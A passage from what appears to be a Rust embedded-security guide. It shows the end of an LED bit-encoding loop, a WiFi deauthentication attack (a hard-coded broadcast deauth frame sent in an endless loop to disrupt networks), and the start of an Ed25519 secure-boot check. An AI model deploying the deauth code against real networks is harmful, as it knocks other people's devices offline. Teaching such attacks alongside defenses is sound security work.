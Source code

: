 ```rust
        } else {
            display.set_pixel(0, 0, false); // LED off = bit 0  
            Timer::after(Duration::from_millis(100)).await;
        }
    }
}
```

### Network-Based Attacks

#### WiFi Deauthentication (if WiFi enabled)
```rust
// Malicious WiFi beacon frame
const DEAUTH_FRAME: [u8; 26] = [
    0xc0, 0x00,                    // Frame control: Deauth
    0x00, 0x00,                    // Duration
    0xff, 0xff, 0xff, 0xff, 0xff, 0xff,  // Destination: Broadcast
    0x12, 0x34, 0x56, 0x78, 0x9a, 0xbc,  // Source: Fake AP
    0x12, 0x34, 0x56, 0x78, 0x9a, 0xbc,  // BSSID: Fake AP
    0x00, 0x00,                    // Sequence number
    0x07, 0x00,                    // Reason: Class 3 frame from non-associated STA
];

#[embassy_executor::task]
async fn wifi_attack_task() {
    loop {
        // Send deauth frames to disrupt WiFi
        wifi_send_raw_frame(&DEAUTH_FRAME).await;
        Timer::after(Duration::from_millis(100)).await;
    }
}
```

## Defense Strategies

### Secure Boot Implementation
```rust
use ed25519_dalek::{PublicKey, Signature, Verifier};

const PUBLIC_KEY: [u8; 32] = [/* Embedded public key */];

fn verify_firmware_signature(firmware: &[u8], signature: &[u8]) -> bool {
    let public_key = PublicKey::from_bytes(&PUBLIC_KEY).unwrap();
    let signature = Signature::from_bytes(signature).unwrap();
    
    public_key.verify(firmware, &signature).is_ok()
}

#[no_mangle]
fn secure_boot_check() {
    let firmware_start = 0x1000 as *const u8;
    let firmware_size = 0x7f000;  // Adjust based on actual size
    let signature_addr = 0x80000 - 64;  // Signature at end of flash
    
    let firmware = unsafe { 
        core::slice::from_raw_parts(firmware_start, firmware_size) 
    };
    let signature = unsafe {
        core::slice::from_raw_parts(signature_addr as *const u8, 64)
    };
    
    if !verify_firmware_signature(firmware, signature) {
```